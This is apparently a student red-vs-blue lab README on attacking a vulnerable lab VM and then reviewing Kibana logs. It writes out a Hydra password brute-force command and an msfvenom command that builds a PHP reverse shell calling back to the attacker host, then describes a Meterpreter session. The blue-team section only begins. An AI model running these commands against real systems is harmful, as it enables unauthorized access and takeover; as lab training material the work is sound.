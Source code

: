 # Red_Vs_Blue-Project
The assessment, analysis, and hardening of a vulnerable system from the red and blue persepctive.

# Scenario

Assuming the role of both pentester (The Red Team) and SOC analyst (The Blue team), The Red Team will attack a vulnerable Capstone virtual machine, ultimately gaining root access to the machine. As Blue Team, Kibana logs will be reviewed taken during the Day 1 engagement. The logs will be used to extract hard data and visualizations. Log data will be interpreted for mitigation measures for each exploit that was successfully performed.

# Network Topology

|  IP Address   |       Machine       |
|:-------------:|:-------------------:|
|  192.168.1.1  |       Hyper-V       |
|  192.168.1.90 |         Kali        |
| 192.168.1.100 | Elastic Stack (ELK) |
| 192.168.1.105 |       Capstone      |

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/d376cac01957cbf835b0715394d88edb26bec282/Images/Project%202%20-%20Network%20Diagram.jpg)

# Red Team - Penetration Test

1. Using NetDiscover, Nmap and a simple ifconfig command, it was uncovered the IP address of the Linux web server is **192.168.1.105**. 

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/5ebd395fc5e24f73acfa663b82b8f98cd51502ce/Images/Screenshot%202021-11-04%20205454.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/5ebd395fc5e24f73acfa663b82b8f98cd51502ce/Images/Screenshot%202021-11-04%20205453.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/5ebd395fc5e24f73acfa663b82b8f98cd51502ce/Images/Screenshot%202021-11-06%20112341.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/5ebd395fc5e24f73acfa663b82b8f98cd51502ce/Images/Screenshot%202021-11-06%20112533.png)

In the above image, port 22 and port 80 are exposed.

2. A browser was opened and then navigated to the IP address that was discovered. A web server with a list of directories was displayed. After performing a cursory research into each directory, there was mention of a "secret folder" that proved to be a point of interest. 

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/775e4bddce20634c247b0dc21a4d30fefb18d59e/Images/Screenshot%202021-11-06%20113607.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/775e4bddce20634c247b0dc21a4d30fefb18d59e/Images/Screenshot%202021-11-06%20114044.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/775e4bddce20634c247b0dc21a4d30fefb18d59e/Images/Screenshot%202021-11-06%20113801.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/775e4bddce20634c247b0dc21a4d30fefb18d59e/Images/Screenshot%202021-11-06%20114329.png)

3. After navigating to the secrect folder directory by typing http://192.168.1.105/company_folders/secret_folder/, there was a road block. Credentials were needed. A login screen pops up and states "For Ashton's eyes only". More research into the "meet_our_team" directory was done to find out more information on Ashton.

Unfortunately, no further information was found on Ashton and brute forcing would have to be the next option. Hydra was used to retrieve Ashton's password using the command:

**_hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder -t 40_**

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/f7fe5da82c489111f87e4dde35b77319200cfc02/Images/hydra%20scan.jpg)

4. Logging into the "secret folder" was successful! Once logged in, a lone file called "connect_to_corp_server" was discovered. Inside the file was a set of intructions on how to connect to the company's WebDAV server, along with a user named Ryan and a password MD5 hash. With the help of crackstation.net, Ryan's password was cracked.

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/e2c36d9e7eb7beaefd8b154e2cc1eee4164c58de/Images/Screenshot%202021-11-06%20124857.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/e2c36d9e7eb7beaefd8b154e2cc1eee4164c58de/Images/Screenshot%202021-11-06%20125023.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/e2c36d9e7eb7beaefd8b154e2cc1eee4164c58de/Images/Screenshot%202021-11-06%20125348.png)

5. The directions in the "connect_to_corp_server" file were followed in order to gain access to the WebDAV server with Ryan's credentials. The WebDAV had unrestricted upload permissions. A payload using MSFVenom was created in order to create a PHP reverse shell using the command:

**_msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 -f raw -o shell.php_**

It was then uploaded into the WebDAV directory.

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/e2c36d9e7eb7beaefd8b154e2cc1eee4164c58de/Images/Screenshot%202021-11-06%20140046.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/f5f5c6f20dd6630abaa687035b0e25f682133603/Images/Screenshot%202021-11-06%20141644.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/f5f5c6f20dd6630abaa687035b0e25f682133603/Images/Screenshot%202021-11-09%20192302.png)

6. A listener in Metasploit was deployed. Soon after the playload was lauched, and lastly a Meterpreter session was accessed.

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/f5f5c6f20dd6630abaa687035b0e25f682133603/Images/Screenshot%202021-11-09%20200616.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/f5f5c6f20dd6630abaa687035b0e25f682133603/Images/Screenshot%202021-11-09%20204910.png)

7. Once a shell was created and entered, the target file was located and a flag was found.

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/50f24246cd5f1cfe8f8fb4a20335882dabde69dd/Images/Flag.jpg)

## Blue Team - Analysis of Attack ##

With the Red Team attack complete, It is now time to switch sides to the Blue team and anaylze the attack. Elastic Stack (ELK - 192.168.1.100) was used to send data and logs to Kibana. Filebeat, metricbeat, and packetbeat were installed prior on the target machine to perform an analysis of the attack. Indicators of attack will also be studied.

